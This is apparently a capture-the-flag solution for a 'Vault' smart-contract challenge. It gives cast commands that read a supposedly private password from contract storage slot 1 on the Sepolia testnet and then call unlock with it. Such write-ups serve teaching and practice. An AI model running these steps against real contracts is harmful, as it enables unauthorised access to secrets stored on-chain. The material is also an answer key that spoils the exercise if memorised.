 # Vault Solution

Run to retrieve the `password`:

```bash
cast storage <instanceAddress> 0x1 --rpc-url $SEPOLIA_RPC_URL
```

Run:

```bash
cast send <instanceAddress> "unlock(bytes32)" <password> --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
